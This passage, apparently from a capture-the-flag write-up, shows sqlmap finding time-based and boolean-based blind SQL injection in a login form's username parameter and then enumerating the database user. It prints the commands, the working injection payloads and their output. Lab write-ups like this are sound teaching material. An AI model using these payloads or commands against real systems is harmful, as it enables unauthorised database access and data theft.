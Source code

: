 Running `sqlmap` with this request finds only a time-based injection:

```

oxdf@hacky$ sqlmap -r login.req --batch
...[snip]...
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 210 HTTP(s) requests:
---                                                                                                                     
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 7458 FROM (SELECT(SLEEP(5)))rnYG) AND 'xsoH'='xsoH&password=admin
---  
...[snip]...

```

Time-based is really slow, and I know there’s a boolean-based one. I’ll specify the technique and up the level and it finds it:

```

oxdf@hacky$ sqlmap -r login.req --batch --technique B --level 5
...[snip]...
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 137 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: username=admin' AND 1086=(SELECT (CASE WHEN (1086=1086) THEN 1086 ELSE (SELECT 9128 UNION SELECT 2646) END))-- -&password=admin
---
...[snip]...

```

#### Enumerate with sqlmap

Now that `sqlmap` has found the vulnerability, I can task it for more information. For example, the current user of the DB:

```

oxdf@hacky$ sqlmap -r login.req --batch --threads 10 --current-user
...[snip]...
current user: 'remo@localhost'
...[snip]...

```

I’m using threads to speed up the process. Threads are safe with boolean, but not time-based.
